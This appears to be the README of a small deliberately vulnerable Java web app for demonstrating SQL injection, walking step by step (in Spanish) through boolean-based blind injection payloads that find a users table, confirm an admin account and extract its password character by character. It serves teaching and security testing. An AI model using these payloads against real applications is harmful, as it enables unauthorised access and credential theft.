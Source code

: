 # mini-goat

A simple Java application to test and demonstrate SQL Injections.

## Installation

It's a web-app made with SpringMVC and Postgres. Should be easily setup.

## Injections

1. comprobamos que es un like:

    a
    b

2. verificamos que podemos obtener un verdadero distinguible

    pipo' and '1' like '1

3. verificamos que podemos obtener un falso distinguible

    pipo' and '1' like '2

4. verificamos que la tabla se llama "usuarios"

    pipo' or exists (select 1 from usuarios) and '1' like '1

4.1. por una falla de configuración, si erramos el nombre de la tabla, tenemos un error

    pipo' or exists (select 1 from usuario) and '1' like '1

5. verificamos que hay un campo password

    pipo' or exists (select 1 from usuarios where password = password) and '1' like '1

6. verificamos que existe efectivamente el usuario admin

    pipo' or exists (select 1 from usuarios where password = password and username = 'admin') and '1' like '1

7. vemos el largo de la contraseña

pipo' or exists (select 1 from usuarios where length(password) > 0 and username = 'admin') and '1' like '1

8. vemos con qué letra empieza la contraseña

pipo' or exists (select 1 from usuarios where substring(password, 1, 1) < 'z' and username = 'admin') and '1' like '1

9. vemos con qué letra sigue la contraseña

pipo' or exists (select 1 from usuarios where substring(password, 1, 1) = '1' and substring(password, 2, 1) < 'z' and username = 'admin') and '1' like '1

10. así sucesivamente, hasta sacar todos los caracteres de la contraseña

pipo' or exists (select 1 from usuarios where substring(password, 1, 1) = '1' and substring(password, 2, 1) = '2' and substring(password, 3, 1) = '3' and substring(password, 4, 1) = '4' and username = 'admin') and '1' like '1
